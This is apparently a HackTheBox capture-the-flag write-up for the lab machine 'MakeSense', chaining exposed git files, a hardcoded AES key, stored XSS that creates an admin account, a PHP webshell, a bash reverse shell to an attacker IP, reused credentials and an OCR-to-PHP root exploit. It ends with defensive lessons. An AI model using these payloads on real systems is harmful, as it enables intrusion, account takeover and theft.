








# HackTheBox — MakeSense Writeup

*by [ak4hit](https://github.com/ak4hit)*


> **Difficulty:** Medium | **OS:** Linux | **Release:** 2026 | 

---

## Attack Path Overview

1. Nmap → ports 22, 443 (WordPress 7.0) → `makesense.htb`
2. ffuf → exposed `.git/logs/` + `.gitignore` → Python/AI stack revealed
3. `whisper-wrapper.js` → hardcoded AES-GCM key + `applySymbolMapping()` for XSS
4. Forge encrypted voice payload → stored XSS → admin bot fires → new admin account created
5. WordPress Theme File Editor → PHP webshell → reverse shell → `wp-config.php` → `walter:JbhHDAEgXvri3!`
6. SSH as walter → `php -S 127.0.0.1:8001` running as root → OCR service
7. Generate PHP shell image on Kali → SCP → OCR reads it → save as `shell.php` → RCE as root

---

## Step 1 — Reconnaissance

### Nmap

```bash
nmap -A makesense.htb
```

```
PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 9.6p1 Ubuntu
80/tcp   filtered http
443/tcp  open     ssl/http  Apache/2.4.58
|_http-generator: WordPress 7.0
| ssl-cert: commonName=makesense.htb
8001/tcp filtered vcom-tunnel
```

Port 80 and 8001 are filtered — only 443 is accessible externally. Add to `/etc/hosts`:

```bash
echo "<TARGET_IP> makesense.htb" >> /etc/hosts
```

### Web Content Discovery

```bash
ffuf -u https://makesense.htb/FUZZ \
     -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt \
     -mc 200,302,403 -k
```

```
.gitignore     [Status: 200, Size: 1055]
.git/logs/     [Status: 200, Size: 34914]
cgi-bin/       [Status: 200, Size: 34914]
.htpasswd      [Status: 403]
.htaccess      [Status: 403]
server-status  [Status: 403]
```

`.git/logs/` returning 200 is critical — the git repository is exposed.

### .gitignore Analysis

```bash
curl -k https://makesense.htb/.gitignore
```

Key findings from `.gitignore`:
- **Python backend** exists (`venv/`, `.env`, `__pycache__/`)
- **Local LLM** in use (`.gguf`, `.bin`, `.safetensors` excluded)
- **Whisper** speech-to-text (`HuggingFace` cache)
- **`wp-content/ai-models/`** — custom WP AI plugin
- Port `8001` is the Python/AI backend (internally hosted)

---

## Step 2 — JavaScript Source Analysis

The WordPress homepage source revealed two critical JS files loaded via `<script src="">` tags:

```
/wp-content/themes/webagency/assets/js/whisper/whisper-wrapper.js
/wp-content/themes/webagency/assets/js/main.js
```

Also embedded in the HTML:

```javascript
var webagency_ajax = {
    "ajax_url": "https://makesense.htb/wp-admin/admin-ajax.php",
    "nonce":    "dca09b85c5",
    "theme_url":"https://makesense.htb/wp-content/themes/webagency",
    "site_url": "https://makesense.htb"
};
```

### whisper-wrapper.js — Hardcoded Encryption Key



```javascript
// Symmetric encryption key (must match server-side)
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';
```

The `applySymbolMapping()` function — **literally commented "for XSS injection"** — converts spoken words to symbols:

```javascript
'open bracket' → '<'
'slash'        → '/'
'quote'        → "'"
```

### main.js — Voice Pipeline

Full flow discovered:

```
Audio → Whisper transcription → applySymbolMapping() → AES-GCM encrypt → save_voice_results
```

AJAX actions found:
- `save_voice_raw` — upload raw WAV (no auth required)
- `save_voice_results` — save encrypted transcription + summary
- `submit_contact_form` — contact form handler

---

## Step 3 — Forged Encrypted Payload → Stored XSS

Since we have the AES-GCM key, we can forge the encrypted payload the browser would normally send — bypassing the entire voice recording pipeline.

### Get fresh nonce

```bash
curl -k -s https://makesense.htb/ | grep -o '"nonce":"[^"]*"'
# → "nonce":"dca09b85c5"
```

### Upload silent WAV to get post_id

```bash
python3 -c "
import wave, struct
with wave.open('silent.wav','w') as f:
    f.setnchannels(1); f.setsampwidth(2); f.setframerate(16000)
    f.writeframes(struct.pack('<h',0)*16000)
"

curl -k -X POST https://makesense.htb/wp-admin/admin-ajax.php \
  -F "action=save_voice_raw" \
  -F "nonce=dca09b85c5" \
  -F "voice_recording=@silent.wav;type=audio/wav"
# → {"success":true,"data":{"post_id":71}}
```

### Forge XSS payload — create new admin account

```python
import json, base64, hashlib, os
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

KEY = b'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI'
key_bytes = hashlib.sha256(KEY).digest()

xss = """<script>
fetch('/wp-admin/user-new.php')
.then(r=>r.text())
.then(html=>{
  const nonce=html.match(/_wpnonce_create-user" value="([^"]+)"/)[1];
  return fetch('/wp-admin/user-new.php',{
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'_wpnonce_create-user='+nonce+'&action=createuser&user_login=hacker99&email=hacker99@hack.com&pass1=Hacker123!&pass2=Hacker123!&role=administrator&pw_weak=on'
  });
})
.then(()=>fetch('http://<YOUR_IP>/?done=1'));
</script>"""

payload = json.dumps({"transcription": xss, "summary": xss}).encode()
iv = os.urandom(12)
ct = AESGCM(key_bytes).encrypt(iv, payload, None)
print(base64.b64encode(iv + ct).decode())
```

### Deliver the payload

```bash
# Start listener
python3 -m http.server 80

# Send forged payload
curl -k -X POST https://makesense.htb/wp-admin/admin-ajax.php \
  -F "action=save_voice_results" \
  -F "nonce=dca09b85c5" \
  -F "post_id=71" \
  -F "encrypted_payload=<OUTPUT>"
```

The admin bot reviews submissions automatically. When it opens our submission, the XSS fires inside the admin's browser context, creating our account using the admin's own session.

```
<TARGET_IP> - - [11/Jul/2026] "GET /?done=1 HTTP/1.1" 200 -
```

### Login as hacker99



Navigate to `https://makesense.htb/wp-login.php` and log in as `hacker99 / Hacker123!`.

Users page confirms our new admin account alongside the existing users:



---

## Step 4 — WordPress Theme Editor → RCE

**Appearance → Theme File Editor → Main Index Template (index.php)**

Replace the file content with:

```php
<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
```



Verify RCE:

```bash
curl -k "https://makesense.htb/wp-content/themes/webagency/index.php?cmd=id"
# → uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Get reverse shell:

```bash
# Listener
nc -lvnp 4444

# Trigger
curl -k -G "https://makesense.htb/wp-content/themes/webagency/index.php" \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1'"
```

---

## Step 5 — wp-config.php → Walter Credentials

```bash
cat /var/www/html/wp-config.php
```

```php
define( 'DB_USER',     'walter' );
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
```

```bash
ssh walter@makesense.htb
# Password: JbhHDAEgXvri3!

cat ~/user.txt
# 1da8****************************
```

🚩 **User Flag captured.**

---

## Step 6 — Privilege Escalation via Root OCR Service

### Identifying the Attack Surface

```bash
ps aux | grep root
```

```
root  1406  php -S 127.0.0.1:8001 -t /root/ocr4/
root  1397  /bin/sh -c /root/.scripts/start_ocr4.sh
```

```bash
ss -tlnp | grep 8001
# LISTEN  127.0.0.1:8001
```

A PHP service is running as root on localhost:8001, serving files from `/root/ocr4/`. Set up SSH port forwarding to access it:

```bash
ssh -L 8001:127.0.0.1:8001 walter@makesense.htb
```

### OCR Service Discovery



The app lets you draw text on a canvas, OCR it via Tesseract, then save the result to a file.

Basic auth required — walter's credentials work:



### Intercept the Save Request

Using Burp Suite to intercept traffic through the SSH tunnel:



Save POST parameters:
```
ocr_id=ocr_6a51fd1826b720.36032173&filename=hi.txt&save_output=
```



### The Vulnerability

The server saves OCR text as a file. The `filename` parameter accepts `.php` extensions, and the saved file is served by the PHP development server running as root. If Tesseract reads the image as PHP code, that code executes as root.

### Generating the Payload Image

No internet access on the target, so generate on Kali and transfer:

```bash
# On Kali
python3 -c "
from PIL import Image, ImageDraw, ImageFont
import base64, io

img = Image.new('RGB', (1000, 300), color='white')
d = ImageDraw.Draw(img)
font = ImageFont.truetype('/usr/share/fonts/truetype/dejavu/DejaVuSansMono-Bold.ttf', 40)
d.text((50, 100), \"<?php system(\$_GET['c']); ?>\", fill='black', font=font)
img.save('/tmp/payload.png')
"

scp /tmp/payload.png walter@makesense.htb:/tmp/payload.png
```

### Exploit Script

Run on the target SSH session:

```python
import requests, base64, re

auth = ('walter', 'JbhHDAEgXvri3!')
url = 'http://127.0.0.1:8001/'
session = requests.Session()

with open('/tmp/payload.png', 'rb') as f:
    b64 = 'data:image/png;base64,' + base64.b64encode(f.read()).decode()

# Step 1: OCR the image
r1 = session.post(url, data={'canvas_image': b64}, auth=auth)
ocr_text = re.search(r'class="output-text[^"]*">(.*?)</p>', r1.text, re.DOTALL)
print("OCR read:", ocr_text.group(1).strip() if ocr_text else "FAILED")

ocr_id = re.search(r'name="ocr_id"\s+value="([^"]+)"', r1.text).group(1)

# Step 2: Save as PHP
session.post(url, data={'ocr_id': ocr_id, 'filename': 'shell.php', 'save_output': ''}, auth=auth)

# Step 3: Execute as root
r3 = session.get(url + 'saved/shell.php', params={'c': 'id'}, auth=auth)
print("RCE:", r3.text)
```

```
OCR read: <?php system($_GET['c']); ?>
Save: 200
RCE: uid=0(root) gid=0(root) groups=0(root)
```

### Root Flag

```bash
curl -u walter:JbhHDAEgXvri3! "http://127.0.0.1:8001/saved/shell.php?c=cat+/root/root.txt"
# e60b****************************
```

👑 **Root Flag captured.**

---

## Full Attack Chain

```
Nmap → 443/HTTPS (WordPress 7.0) + 22/SSH
              ↓
     ffuf → .git/logs/ exposed (200)
     .gitignore → Python + Whisper + AI stack
              ↓
     whisper-wrapper.js (via <script src> in HTML)
     ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI'
     applySymbolMapping() → designed for XSS
              ↓
     save_voice_raw → post_id (no auth needed)
     AES-GCM forge payload → stored XSS in transcription
              ↓
     Admin bot opens submission
     XSS fires → fetch /wp-admin/user-new.php → create hacker99:admin
              ↓
     Login as hacker99 → Theme File Editor → index.php webshell
              ↓
     www-data shell → wp-config.php → walter:JbhHDAEgXvri3!
              ↓
          USER FLAG 🚩
              ↓
     SSH walter → ps aux → php -S 127.0.0.1:8001 (root)
     SSH tunnel → OCR service (Basic auth = walter creds)
              ↓
     Generate PHP shell image on Kali → SCP to target
     OCR reads "<?php system($_GET['c']); ?>"
     Save as shell.php → served by root PHP server
              ↓
     GET /saved/shell.php?c=cat+/root/root.txt
              ↓
          ROOT FLAG 👑
```

---

## Key Takeaways

- **Never hardcode encryption keys in client-side JS.** `ENCRYPTION_KEY` in `whisper-wrapper.js` was publicly accessible — the AES-GCM encryption provided zero security once anyone read the source.
- **HttpOnly cookies don't stop XSS from doing damage.** We couldn't steal the auth cookie, but riding the admin session to create a new account was just as effective.
- **Admin bots are a standard HTB mechanic.** Any submission that gets "reviewed" means a bot will execute your payload — design XSS to make authenticated requests, not just steal cookies.
- **Credential reuse is everywhere.** `walter`'s DB password from `wp-config.php` was also the SSH password and the OCR service password.
- **OCR as a code execution sink is underappreciated.** The service trusted that OCR output was safe text. Feeding it a clean printed image of PHP code — on white background, bold monospace font — was enough for Tesseract to produce valid, executable output. Any pipeline that OCRs user-controlled input and then saves it without sanitization is vulnerable.
- **PHP dev server in production as root.** `php -S` is a single-threaded dev tool — running it as root serving user-controllable files is a critical misconfiguration regardless of the OCR vector.

---

*HackTheBox · MakeSense · Medium · Linux · by [ak4hit](https://github.com/ak4hit)*
